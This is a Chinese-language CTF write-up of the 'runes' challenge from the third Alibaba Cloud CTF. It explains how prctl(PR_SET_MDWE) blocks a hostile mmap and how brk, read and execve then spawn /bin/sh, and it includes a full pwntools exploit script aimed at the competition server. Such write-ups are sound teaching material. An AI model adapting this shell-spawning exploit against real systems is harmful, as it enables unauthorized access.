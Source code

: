 ```yaml
---
title: 第三届阿里云CTF - runes
date: 2025/02/24 23:11:00
updated: 2025/02/24 23:51:00
tags:
    - syscall
thumbnail: /assets/aliyunctf2025/banner.png
---
```


> Show me your runes.
>> hint:
>> * No intended vulnerability in the bzImage/kernel, please exploit the
>>   userspace chal binary.
>> * As the challenge's name implies, you need to focus on the `syscall`
>>   aka rune in this challenge. Find a way to **weaken the dark dragon's
>>   power** once your character becomes strong enough.
>> * All syscall numbers（系统调用号） used in the intended solution are
>>   under 200 and relatively well used.

{% note green fa-heart %}
本题由 *hkbin* 和 *haraniN* 和我一起合作解决！
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

{% note blue fa-circle-info %}
题目是运行在虚拟机中的，内存256M，内核版本6.6。
{% endnote %}

`chal`实现了一个小游戏，基础等级是`1`，可以执行任意syscall，并且可以控制前三个参数，
但是这3个参数必须小于`等级*100`。小游戏中可以升级，但是不可能超过7，
而指针对应的无符号数非常大，看到如果打败dark dragon可以升级到`0x7ffffffffff`，
然后就可以输入指针了。为了打败dark dragon，需要把它的血量打到1，
也就是需要让预期的`mmap`调用失败，如果成功，人物血量会直接归零。

{% folding blue::mmap了什么 %}
程序向`memfd`中写入了一串shellcode，并通过`mmap`包含fd来将其映射到`rwx`内存中，
随后执行，反汇编后结果是：

```x86asm
mov    rax,rdi
sub    QWORD PTR [rax],0x1337c0d3
ret
```

而输入的地址rdi是`&hp`，hp会直接降到0以下，并被随后的代码归零。
{% endfolding %}

寻找符合条件的syscall，先筛掉所有包含指针的syscall，由于程序打开的 `memfd`
被dup到了`1023`，而等级不可能在正常情况下大于10，因此也无法关闭 `memfd` 。
如果使内存不足以分配0x1000大小的内存的话，也可以阻止mmap，但是256M实在难以企及，
就算`fork`，增加的内存也是沧海一粟。最后选择了`prctl`，在Linux 6.3加入了`PR_SET_MDWE`，
开启这个[security bit](https://man7.org/linux/man-pages/man2/pr_set_mdwe.2const.html)
后可以禁止mmap一段`?wx`的内存，并且不会影响到execve后的新程序。
在因此设置后就能成功升级，实现任意syscall调用。

{% note blue fa-boxes-packing %}
由于Arch Linux滚动更新的特性，我的内核保持最新，可以直接把`chal`拖出来在本地调试；
而一些使用Ubuntu的小伙伴，由于内核老，是没有这个特性的，在本地只能盲调。
{% endnote %}

剩下的问题是保护全开，没有泄露任何指针。可以通过`brk`调用申请堆内存，
在上面写数据。由于sh链接到了busybox，因此还需要设置argv。最后
`execve(“/bin/sh", {“sh", NULL}, NULL)` 拿shell。

{% note green fa-lightbulb %}
[官方wp](https://xz.aliyun.com/news/17029)中使用了`shmget + shmat`来申请一片内存。
{% endnote %}

## EXPLOIT

```python
from pwn import *
from pwnlib.constants.linux.amd64 import __NR_prctl, __NR_alarm, __NR_brk, __NR_read, __NR_execve
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './chal'
SYS = constants

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('121.41.238.106', 42898)

    def init_name(name: str):
        info('Waiting for vm to boot')
        sh.sendlineafter(b'tell me your name', name.encode())
        info(f'Script by {name}')

    def attack_dragon(rax: int, rdi: int=0, rsi: int=0, rdx: int=0, tosend: bytes=None) -> int:
        sh.sendlineafter(b'Your Journey Continues', b'2')
        sh.sendlineafter(b'Invoke the Forbidden Runes', b'3')
        sh.sendlineafter(b'60 3 3 3', f"{int(rax)} {int(rdi)} {int(rsi)} {int(rdx)}".encode())
        if tosend:
            sleep(0.125)
            sh.send(tosend)
        if rax == __NR_execve:
            return
        sh.recvuntil(b'force answers:')
        sysret = int(sh.recvline())
        sh.sendlineafter(b'Impossible', b'1')
        return sysret

    init_name('hkbin & Rocket & haraniN')
    attack_dragon(__NR_prctl, 65, 1) # PR_SET_MDWE; PR_MDWE_REFUSE_EXEC_GAIN
    attack_dragon(__NR_alarm, 0)     # reset alarm timer
    brk = attack_dragon(__NR_brk, 0) # initial brk
    success(GOLD_TEXT(f"Get brk: {brk:#x}, try to extend 0x1000"))
    brk_top = attack_dragon(__NR_brk, brk + 0x1000)
    assert brk_top == brk + 0x1000, "failed to extend brk"
    sent = attack_dragon(__NR_read, 0, brk, 16, b'/bin/sh\0' + p64(brk + 5) + b'\n') # "/bin/sh" "sh" NULL
    assert sent == 16, "failed to send /bin/sh"
    info('Now try to open the shell')
    attack_dragon(__NR_execve, brk, brk + 8, 0) # execve("/bin/sh", {"sh", NULL}, NULL)

    sh.clean()
    sh.interactive()
    sh.close()
```

{% note default fa-flag %}
![flag](/assets/aliyunctf2025/runes.png)
{% endnote %}

## 参考

1. [PR_SET_MDWE(2const) — Linux manual page](https://man7.org/linux/man-pages/man2/pr_set_mdwe.2const.html)
2. [第三届阿里云CTF官方Writeup](https://xz.aliyun.com/news/17029)
